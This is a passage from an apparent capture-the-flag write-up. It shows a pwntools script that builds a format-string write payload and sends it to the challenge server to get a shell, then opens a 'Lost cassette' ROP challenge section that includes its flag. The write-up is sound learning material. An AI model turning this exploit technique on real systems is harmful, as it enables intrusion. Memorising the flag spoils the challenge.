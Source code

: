 Another thing that has changed is the address where we want to write at. This is the script which automates our exploit (**note**: I calculated the offset the same way I showed from the `lost` task):

``` python
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload
from pwn import *
context.clear(arch = 'aarch64')
def send_payload(payload):
    	s = remote('vmx.cs.pub.ro',31600)
    	s.sendline(payload)
    	r = s.recvline()
    	return r

offset = 17
writes = {0x0494060: 0x1025544}

payload = fmtstr_payload(offset, writes, numbwritten=0)
print(payload)
s = remote('vmx.cs.pub.ro',31600)
s.sendline(payload)
s.interactive()
```

***

## Lost cassette (100 pts, 13 solves): pwn

### Flag
ACS_KEYSIGHT_CTF{saf3r_th4n_cpp}

### Description

![Lost-casette-description](assets/images/image6.png)

### Summary
Simple ROP exploit

### Solve
The source code from `main` function using IDA to decompile it:
